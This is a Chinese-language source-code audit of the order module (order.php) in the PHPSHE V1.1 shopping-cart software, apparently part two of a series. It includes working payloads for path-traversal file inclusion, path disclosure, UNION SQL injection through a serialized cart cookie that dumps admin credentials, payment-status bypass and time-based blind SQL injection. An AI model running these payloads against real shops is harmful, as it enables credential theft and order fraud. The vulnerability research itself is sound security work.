 ### **PHPSHE V1.1 （二）**

**order.php**
接下來，我們來看看`order`購物車及訂單模塊。
<br >
大致看一下、購物車列表主要以序列化形式緩存在cookie裏面，第一反應就想到能不能有序列化注入？`選擇支付方式`似乎也存在包含漏洞。
<br >
先看看選擇`支付方式`的包含漏洞的

```php
//Line:106

case 'pay':
    ...
    if (isset($_p_pesubmit)) {
        ...
        include("{$pe['path_root']}include/plugin/payway/{$_p_info['order_payway']}/order_pay.php");
```

此處`$_p_info['order_payway']`可控且未經過濾。

### **【Bug 0x04: 任意文件包含漏洞 有限制條件】**
`POST:/index.php?mod=order&act=pay`
<br >
`DATA:info[order_payway]=../../../robots.txt%00?&pesubmit=1`
<br >
再看看，`訂單增加`操作無需登陸就可以對數據庫操作。

```php
//Line:65

case 'add':
    $cart_info = cart_info(unserialize($_c_cart_list));
```

跟進`cart_info()`函數

```php
//Line:135

function cart_info($_c_cart_list=array()) {
    ...
    else {
    if (is_array($_c_cart_list)) {
        foreach ($_c_cart_list as $k => $v) {
            $product_rows = $db->pe_select('product', array('product_id'=>$k), '`product_name`, `product_logo`, `product_smoney`, `product_num` as `product_maxnum`');
            $info_list[] = array_merge($v, $product_rows);
```

這個地方、除了可能有sql注入，同時還有一個亮點

`$info_list[] = array_merge($v, $product_rows);`

函數`array_merge()`錯誤的參數也會導致出現謝謝洩漏的。
<br >
我們任意構造一個錯誤的序列化訂單，例如`a:1:{s:0:"";a:1:{s:11:"product_num";N;}}`
<br >
這是通過空購物車的時候，進行**購物車商品更改數量**操作自動生成的一個錯誤的商品信息。
<br >
`/index.php?mod=order&act=cartnum`
<br >
然後再次進行任意一個調用到`cart_info()`函數的操作就會發生錯誤並返回錯誤信息。

### **【Bug 0x05: 信息洩露 爆路徑】**

URL:
```
/index.php?mod=order&act=cartnum
/index.php?mod=order&act=add
/index.php?mod=order&act=cartdel
```
**Cookie**:`cart_list=a:1:{s:0:"";a:1:{s:11:"product_num";N;}}`

```Warning: array_merge(): Argument #2 is not an array in E:\SourceCodes\phpshe1.1\module\index\order.php on line 148```

現在我們繼續審計是否存在注入。

```php
//Line:142

if (is_array($_c_cart_list)) {
    foreach ($_c_cart_list as $k => $v) {
        $product_rows = $db->pe_select('product', array('product_id'=>$k), '`product_name`, `product_logo`, `product_smoney`, `product_num` as `product_maxnum`');
```

`$k`存在注入。<br>
跟進`pe_select()`函數


```php
//Line:135

public function pe_select($table, $where = '', $field = '*')
    {
        //處理條件語句
        $sqlwhere = $this->_dowhere($where);
        return $this->sql_select("select {$field} from `".dbpre."{$table}` {$sqlwhere} limit 1");
```

再跟進`_dowhere()`函數


```php
//Line:181

//處理條件語句
protected function _dowhere($where)
{
    if (is_array($where)) 
    {
        foreach ($where as $k => $v) 
        {
            if (is_array($v)) 
            {
                $where_arr[] = "`{$k}` in('".implode("','", $v)."')";            
            }
            else 
            {
                in_array($k, array('order by', 'group by')) ? ($sqlby = " {$k} {$v}") : ($where_arr[] = "`{$k}` = '{$v}'");
            }
        }
        $sqlwhere = is_array($where_arr) ? 'where '.implode($where_arr, ' and ').$sqlby : $sqlby;
    }
    else 
    {
        $where && $sqlwhere = (stripos(trim($where), 'order by') === 0 or stripos(trim($where), 'group by') === 0) ? "{$where}" : "where 1 {$where}";
    }
    return $sqlwhere;
}
```

來自`$_c_cart_list`的`$k`未經過濾被帶入sql語句中，導致where條件注入。
<br >
這時，我們可以構造一個特殊的序列化購物車訂單，利用union任意查詢數據庫內容。
<br >
PHP_生成POC

```php
<?php
$b["'union select admin_name,2,3,4 from pe_admin -- -"][0] = '1\'';
$b["'union select admin_pw,2,3,4 from pe_admin -- -"][1] = '1\'';
$s = serialize($b);
print_r($s);
?>
```


### **【Bug 0x06: SQL注入 任意查詢】**

URL:`/index.php?mod=order&act=add`

Cookie:
<br>
```a:2:{s:49:"'union select admin_name,2,3,4 from pe_admin -- -";a:1:{i:0;s:2:"v'";}s:47:"'union select admin_pw,2,3,4 from pe_admin -- -";a:1:{i:1;s:2:"v'";}}```

兩個商品名稱處分別顯示管理員用戶名和密碼。
回到**訂單增加**操作。

```php
//Line:73-80

$_p_info['order_productmoney'] = $money['order_productmoney'];
$_p_info['order_wlmoney'] = $money['order_wlmoney'];
$_p_info['order_money'] = $money['order_money'];
$_p_info['order_atime'] = time();
$_p_info['user_id'] = $_s_user_id;
$_p_info['user_name'] = $_s_user_name;
$_p_info['user_address'] = "{$_p_province}{$_p_city}{$_p_info['user_address']}";
if ($order_id = $db->pe_insert('order', $_p_info)) {
```

我們用`print_r()`或者`var_dump()`輸出`$_p_info`

```php
Array
(
    [user_address] => 河南省鄭州市測試
    [user_tname] => 姓名
    [user_phone] => 13012345678
    [user_tel] =>
    [order_text] =>
    [order_productmoney] => 133.0
    [order_wlmoney] => 0.0
    [order_money] => 133.0
    [order_atime] => 1461044204
    [user_id] =>
    [user_name] =>
)
```

這時可以發現`user_tname`和`user_phone`和`user_tel`和`order_text`都沒有經過處理，就代入了sql查詢。
<br >
這裡、我們可以利用update注入了。當然，我們沒有登陸、無法查看到訂單詳情。
<br >
同時，我們也可以構造其他的參數例如`order_state`,直接修改訂單狀態。

### **【Bug 0x07: 支付繞過】**

URL:
```
/index.php?mod=order&act=add
```

DATA:
```
....
info[order_state]=paid
```

雖然會返回訂單號錯誤，但確實是成功了。
<br >
在登陸情況下，該頁面也存在不少注入漏洞。

```php
//Line:34

case 'cartnum':
    $money['order_productmoney'] = $money['order_wlmoney'] = $money['order_money'] = 0;
    if (pe_login('user')) {
        $result = $db->pe_update('cart', array('user_id'=>$_s_user_id, 'product_id'=>$_g_product_id), array('product_num'=>$_g_product_num));
    }
```

`$_g_product_id`和`$_g_product_num`未經顧慮就帶入了sql更新。
<br >

### **【Bug 0x08: SQL注入 Update注入 AND/OR time-based blind 登陸限制】**

URL:

```/index.php?mod=order&act=cartnum&product_id=1&product_num=12' AND (SELECT * FROM (SELECT(SLEEP(5)))YfCN) AND 'RShN'='RShN```